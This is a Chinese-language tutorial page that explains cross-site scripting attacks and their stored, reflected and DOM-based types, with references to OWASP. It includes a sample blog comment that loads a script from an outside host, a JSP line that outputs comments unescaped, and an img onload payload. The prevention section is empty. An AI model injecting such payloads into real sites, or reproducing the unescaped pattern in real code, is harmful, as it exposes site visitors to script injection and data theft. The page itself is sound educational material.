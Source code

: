 跨站脚本攻击(XSS - Cross Site Scripting)
==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

关键点
找到可以注入Script脚本的地方。

==分类==
===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://c.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B在使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。这种攻击方式可以通过邮件等方式发送给用户

===DOM Based XSS===
与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。

：


注入点
1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>
2.
2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

DOM Based XSS
  你的程序本身存在一些依赖于来自于客户端的数据并展示，但是对来源数据为做安全检查。



防范方式 


参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)